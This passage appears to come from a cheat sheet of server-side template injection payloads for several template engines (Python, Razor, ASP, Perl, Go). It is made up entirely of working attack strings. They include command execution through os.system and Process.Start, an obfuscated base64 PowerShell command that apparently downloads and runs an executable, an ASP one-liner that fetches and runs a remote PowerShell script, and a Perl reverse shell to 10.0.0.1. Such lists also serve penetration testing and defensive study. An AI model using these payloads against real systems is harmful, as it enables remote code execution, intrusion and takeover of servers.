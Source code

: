 ```python

${self.context._with_template.module.runtime.compat.inspect.os.system("id")}

${self.context._with_template.module.runtime.exceptions.util.os.system("id")}

${self.template.module.runtime.exceptions.traceback.linecache.os.system("id")}
```

### .Net

#### Razor

Command execution

```net
@{
	// C# Code
}

@System.Diagnostics.Process.Start("cmd.exe","/c whoami /priv");

@System.Diagnostics.Process.Start("cmd.exe","/c powershell.exe -enc IABpAHcAcgAgAC0AdQByAGkAIABoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAyAC4AMQAxADEALwB0AGUAcwB0AG0AZQB0ADYANAAuAGUAeABlACAALQBPAHUAdABGAGkAbABlACAAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFQAYQBzAGsAcwBcAHQAZQBzAHQAbQBlAHQANgA0AC4AZQB4AGUAOwAgAEMAOgBcAFcAaQBuAGQAbwB3AHMAXABUAGEAcwBrAHMAXAB0AGUAcwB0AG0AZQB0ADYANAAuAGUAeABlAA==");
```

### ASP

Command execution

```asp
<%= CreateObject("Wscript.Shell").exec("powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.11:8000/shell.ps1')").StdOut.ReadAll() %>
```

### Perl

#### Mojolicious

Command execution

```perl
<%= use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};%>

<% use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};%>
```

### Go

Command execution

```go
{{ .System "id" }}
```
